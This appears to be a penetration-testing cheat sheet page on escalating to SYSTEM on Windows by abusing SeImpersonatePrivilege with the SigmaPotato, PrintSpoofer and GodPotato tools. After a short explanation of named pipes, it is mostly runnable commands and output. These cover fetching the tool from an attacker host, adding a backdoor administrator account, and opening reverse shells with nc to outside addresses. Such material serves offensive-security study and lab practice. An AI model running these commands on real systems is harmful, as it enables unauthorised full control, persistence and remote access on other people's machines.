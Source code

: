 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to `administrator` accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

> _**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time._

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## SigmaPotato

[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a tool that leverages a variation of the "potato" attacks to coerce `NT AUTHORITY\SYSTEM` into connecting to a controlled named pipe. If we have `SeImpersonatePrivilege`, SigmaPotato lets us escalate to `SYSTEM`, executing commands or gaining an interactive shell.

{% tabs %}
{% tab title="1. Bind Shell" %}
{% code overflow="wrap" %}
```bash
$ nc 192.168.225.220 4444
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
<SNIP>
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="2. Execute" %}
{% code overflow="wrap" %}
```powershell
C:\Users\dave>powershell
<SNIP>

PS C:\Users\dave> iwr http://192.168.45.226/SigmaPotato.exe -outfile sigmapotato.exe
iwr http://192.168.45.226/SigmaPotato.exe -outfile sigmapotato.exe
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
PS C:\Users\dave> .\sigmapotato.exe "net user dave4 lab /add"
.\sigmapotato.exe "net user dave4 lab /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 1016 | Token: 0x280 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1040
[+] Current Command Length: 23 characters
[+] Creating Process via 'CreateProcessWithTokenW'
[+] Process Started with PID: 5424

[+] Process Output:
The command completed successfully.


PS C:\Users\dave> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
.\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 1016 | Token: 0x280 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 988
[+] Current Command Length: 40 characters
[+] Creating Process via 'CreateProcessWithTokenW'
[+] Process Started with PID: 10876

[+] Process Output:
The command completed successfully.
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
PS C:\Users\dave> Get-LocalGroupMember administrators
Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave4         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
{% endtab %}
{% endtabs %}

## PrintSpoofer

{% tabs %}
{% tab title="1. PrivEsc" %}
Escalate to `NT AUTHORITY\SYSTEM` on the same session:

```powershell
PrintSpoofer.exe -i -c cmd
```
{% endtab %}

{% tab title="2. RevShell" %}
Create a new `SYSTEM` process and exit immediately without interacting with it. Suitable for non-interactive cases, e.g. WinRM.

```powershell
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

On the attacking box:

```bash
$ nc -lvpn 1337
...
C:\WINDOWS\system32>whoami
nt authority\system
```
{% endtab %}

{% tab title="3. RDP" %}
&#x20;Spawn a `SYSTEM` command prompt on your desktop, for instance, when logged in via an RDP session.

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp           lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
{% endtab %}
{% endtabs %}

## GodPotato

{% tabs %}
{% tab title="1. PrivEsc" %}
```powershell
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="2. RevShell" %}
```powershell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="SigmaPotato" %}
{% embed url="https://github.com/tylerdotrar/SigmaPotato" %}
{% endtab %}

{% tab title="PrintSpoofer" %}
{% embed url="https://github.com/itm4n/PrintSpoofer?tab=readme-ov-file" %}
{% endtab %}

{% tab title="GodPotato" %}
{% embed url="https://github.com/BeichenDream/GodPotato" %}
{% endtab %}
{% endtabs %}
